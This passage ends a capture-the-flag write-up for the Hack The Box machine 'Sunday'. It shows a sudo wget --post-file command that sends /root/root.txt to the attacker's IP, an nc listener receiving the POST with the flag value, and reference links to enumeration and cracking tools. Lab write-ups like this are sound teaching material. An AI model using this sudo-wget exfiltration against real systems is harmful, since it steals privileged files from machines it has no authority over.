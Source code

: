 ```bash
sammy@sunday:~$ sudo /usr/bin/wget --post-file=/root/root.txt 10.10.14.41
--21:49:39--  http://10.10.14.41/
           => `index.html'
Connecting to 10.10.14.41:80... connected.
HTTP request sent, awaiting response... 
```

```bash
artis3n@kali-pop:~/shares/htb/sunday$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.76] 63352
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.41
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8
```

I did not feel confident walking away from this box, but at the end of the day I got the flags that I needed.

[finger]: https://book.hacktricks.xyz/pentesting/pentesting-finger
[finger enum]: https://github.com/pentestmonkey/finger-user-enum
[gtfobins]: https://gtfobins.github.io/gtfobins/wget/#sudo
[hackthebox]: https://www.hackthebox.eu
[john]: https://github.com/magnumripper/JohnTheRipper
[patator]: https://github.com/lanjelot/patator

[finger enum results]: /assets/img/htb/sunday/finger-enum-results.png
